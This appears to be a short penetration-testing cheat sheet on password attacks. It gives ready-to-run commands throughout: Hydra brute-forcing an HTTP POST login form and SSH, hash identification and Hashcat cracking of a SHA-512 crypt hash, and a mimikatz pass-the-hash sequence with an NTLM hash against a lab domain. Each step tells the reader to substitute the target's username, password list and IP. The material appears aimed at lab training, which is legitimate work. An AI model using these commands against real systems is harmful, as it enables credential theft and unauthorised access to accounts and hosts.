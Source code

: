 # Password Attacks

#### HTTP POST Attack with THC-Hydra

* **Using THC-Hydra:**
  *   Perform an HTTP POST attack using Hydra to brute-force login credentials.

      ```bash
      hydra -l admin -P pass.txt 192.168.1.12 http-post-form "/mutillidae/index.php?page=login.php:username=admin&password=^PASS^&login-php-submit-button=Login:Password incorrect"
      ```
  * Replace `admin`, `pass.txt`, and `192.168.1.12` with the target username, password list, and IP address, respectively.

#### SSH Attack with THC-Hydra

* **Using THC-Hydra:**
  *   Conduct an SSH attack using Hydra to brute-force SSH credentials.

      ```bash
      hydra -l levi -p levi.txt ssh:192.168.1.12 -v
      ```
  * Replace `levi`, `levi.txt`, and `192.168.1.12` with the target username, password list, and IP address, respectively.

#### Leveraging Password Hashing

* **Identify Hash Type:**
  *   Use hashid to identify the hash type.

      ```bash
      hashid '$6$efxS7PCQU0SZi33L$H7sWCUQJ0dDBKwSZmxwADtp6D553OyjFRUfA3PKnf4JAT625jiRvDBFUTB2501CLCDzNlbjkCqM4PFJsxV9Qx'
      ```
* **Crack Hash with Hashcat:**
  *   Use Hashcat to crack the hash.

      ```bash
      hashcat -a 0 -m 1800 hash.txt rockyou.txt
      ```

#### Pass The Hash Attack

* **Using mimikatz:**
  *   Execute Pass The Hash Attack with mimikatz.

      ```bash
      mimikatz.exe
      privilege::debug
      token::elevate
      privilege::debug
      sekurlsa::pth /user:Administrator /domain:ignite.local /ntlm:32ed87bdb5fdc5e9cba88547376818d4
      ```
* Use the `sekurlsa::pth` command to pass the hash for privilege escalation.
